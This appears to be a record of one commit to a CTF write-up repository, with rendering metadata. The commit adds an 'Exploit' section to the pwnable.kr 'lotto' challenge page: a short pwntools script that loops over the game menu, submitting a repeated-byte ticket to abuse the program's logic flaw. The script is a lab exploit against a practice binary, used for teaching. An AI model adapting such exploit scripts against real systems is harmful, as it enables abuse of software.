

Before and after one commit to andrei2308/ctf-challenges, a Jekyll site: the page built from pwnable.kr/pwnable-lotto/description.md, in a window 1280 px wide and 1400 px high, scrolled down 2808 px. Shown: the whole window at 94% size, without its empty margins (166-1113 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 3538 px from its top, so only the background shows below that.

Commit message:
Update description.md

````diff
--- a/pwnable.kr/pwnable-lotto/description.md
+++ b/pwnable.kr/pwnable-lotto/description.md
@@ -98,6 +98,39 @@ The script can be found in the repository.
 
 ---
 
+## Exploit
+
+```python
+from pwn import *
+
+# Path to the binary
+conn = process('/root/ctf/lotto/lotto')  # Adjust the path to your binary
+
+while True:
+    # Receive the menu
+    menu = conn.recvuntil(b"3. Exit\n", timeout=2).decode()
+    print(menu)  # Debug print to verify what the program outputs
+
+    # Send the menu choice: "1" for Play Lotto
+    conn.sendline(b"1")
+
+    # Receive the prompt for submitting lotto bytes
+    prompt = conn.recvuntil(b"Submit your 6 lotto bytes :").decode()
+    print(prompt)  # Debug print to verify prompt
+
+    # Send 6 bytes as the lotto ticket
+    ticket = b'\x01\x01\x01\x01\x01\x01'  # Replace with your desired values
+    conn.sendline(ticket)
+
+    # Read the response after submitting the ticket
+    response = conn.recvline(timeout=2).decode()
+    print(response)  # Debug print to verify result
+
+# Close the connection
+conn.close()
+
+```
+
 ## **Key Takeaways**
 
 1. **Logical Vulnerability**:
````
